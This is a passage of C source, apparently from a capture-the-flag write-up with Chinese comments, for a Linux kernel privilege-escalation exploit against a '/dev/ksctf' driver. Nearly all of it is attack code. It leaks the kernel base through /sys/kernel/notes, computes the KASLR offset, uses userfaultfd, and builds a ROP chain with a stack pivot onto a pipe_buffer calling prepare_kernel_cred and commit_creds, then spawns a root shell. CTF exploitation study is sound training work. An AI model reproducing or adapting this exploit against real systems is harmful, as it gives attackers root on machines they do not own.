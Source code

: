 ```c
    int s = pthread_create(&thr, NULL, handler, (void *)uffd);
    if (s != 0)
    {
        printf("[-] pthread_create");
        exit(-1);
    }
}
void get_shell()
{
    if (getuid())
    {
        puts("failed to get root");
        exit(0);
    }
    puts("get root");
    system("/bin/sh");
}

int main()
{
    save_status();
    fd = open("/dev/ksctf", O_RDWR);
    // leak kernelbase
    int note = open("/sys/kernel/notes", O_RDONLY);
    char tmp[0x100] = {0};
    read(note, tmp, 0x100);
    kernel_base = *(long *)(&tmp[0x9c]) - 0x2000;
    size_t offset = kernel_base - 0xFFFFFFFF81000000;
    // 然后看看能不能得到 kaslr 偏移
    size_t pop_rax_ret = 0xffffffff8101040e;
    size_t pop_rdi_ret = 0xffffffff81003e98;
    size_t swapgs_ret = 0xffffffff8105c8f0;
    size_t iretq_ret = 0xffffffff81032b42;
    size_t swap_rsp_rax = 0xffffffff825c8c74;
    // size_t confirm=0xFFFFFFFF811E3350;     // 这一步会被 smap 干掉
    size_t prepare_kernel_cred = 0xFFFFFFFF81098140;
    size_t mov_rdi_rax = 0xFFFFFFFF810FF598;
    size_t commit_creds = 0xFFFFFFFF81097D00;
    size_t push_rsi_pop_rsp = 0xffffffff81599a34; // push rsi; pop rsp; setl al; shl eax, 2; ret; 此时 rsi 是指向的 pipe_buffer
    // mark 一下可以找这样的 gadget
    size_t ret = 0xFFFFFFFF811DCB70;
    printf("offset: %p\n", offset);

    checkbuf[0x20] = 1;
    *(long *)&checkbuf[0x28] = (long)data;
    // userfaultfd
    ioctl(fd, 0xFFF0, checkbuf);
    page = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    registerUserfault(page, Handler);

    ptr = *(long long *)data;

    // 0xffffffffa5be3350 FFFFFFFF81C00010 0xffffffffa6600010
    ropchain[0] = pop_rdi_ret + offset;
    ropchain[1] = push_rsi_pop_rsp + offset; // 这是 release 函数
    ropchain[2] = pop_rdi_ret + offset;
    ropchain[3] = 0;
    ropchain[4] = prepare_kernel_cred + offset;
    ropchain[5] = mov_rdi_rax + offset;
    ropchain[6] = commit_creds + offset;
    ropchain[7] = swapgs_ret + offset;
    ropchain[8] = iretq_ret + offset;
```
